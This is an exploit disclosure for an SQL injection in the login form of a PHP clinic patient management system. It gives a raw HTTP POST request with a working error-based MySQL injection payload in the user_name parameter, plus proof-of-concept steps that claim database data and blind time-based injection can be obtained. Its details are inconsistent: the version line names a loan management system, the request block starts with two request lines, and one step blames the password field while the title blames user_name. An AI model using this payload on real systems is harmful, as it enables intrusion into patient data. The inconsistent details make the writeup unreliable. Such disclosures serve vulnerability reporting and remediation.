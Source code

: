 # Clinic's Patient Management System - index.php 'user_name' SQL inject

#### Exploit Title: Clinic's Patient Management System - index.php 'user_name' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Software Link:https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Clinic's Patient Management System does not filter the content correctly at the "index.php /user_name" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /index.php HTTP/1.1
Host: 192.168.31.35:8089
Content-Length: 103
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8089/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

user_name=admin' AND GTID_SUBSET(CONCAT(0,(SELECT user()),0),3619) AND 'XOyz'='XOyz&password=123&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in index.php

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's Patient Management System/images/sourcecodesql.png)

3、During manual testing, it is found that SQL error reporting injection exists, so the sensitive information and permissions of the database can be obtained by using the error reporting injection function

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's Patient Management System/images/sqlresult1.png)

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's Patient Management System/images/sqlresult.png)

4、Using the tool to test, it is found that there is also blind SQL time injection

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's Patient Management System/images/sqlresult2.png)

